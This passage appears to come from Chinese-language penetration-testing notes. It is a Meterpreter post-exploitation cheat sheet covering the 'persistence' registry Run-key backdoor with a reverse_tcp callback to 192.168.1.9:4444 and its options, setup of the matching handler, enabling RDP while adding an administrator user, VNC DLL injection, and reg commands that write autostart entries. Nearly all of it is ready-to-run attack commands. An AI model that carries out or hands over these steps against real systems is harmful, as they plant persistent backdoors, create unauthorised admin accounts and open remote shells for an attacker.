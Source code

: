 - **persistence 启动项后门**

    原理就是在 `C:\Users\用户名\AppData\Local\Temp` 下上传一个 VBS 脚本，通过该脚本，在注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\` 下新建一个开机启动项

    ```bash
    # 自动化部署
    run persistence -A

    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A : 安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L : 自启动脚本的路径,默认为 %TEMP%
    -P : 需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S : 作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T : 要使用的备用可执行模板
    -U : 用户登陆时运行
    -X : 系统启动时运行
    -i : 后门每隔多少秒尝试连接服务端
    -p : 服务端监听的端口
    -r : 服务端 ip
    ```

    ```bash
    use exploit/multi/handle
    set payload windows/meterpreter/reverse_tcp
    set LHOST <lhost>
    set LPORT <lport>
    exploit -j
    ```

**RDP**
```bash
run post/windows/manage/enable_rdp  # 开启 3389 远程桌面;
run post/windows/manage/enable_rdp username=xxx password=xxx    # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

**vnc**
```bash
run vnc                             # 分段注入VNC DLL
```

**注册表操作**

通过注册表设置开机自启动
```bash
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note -d 'C:\Windows\System32\notepad.exe'

reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v note
```
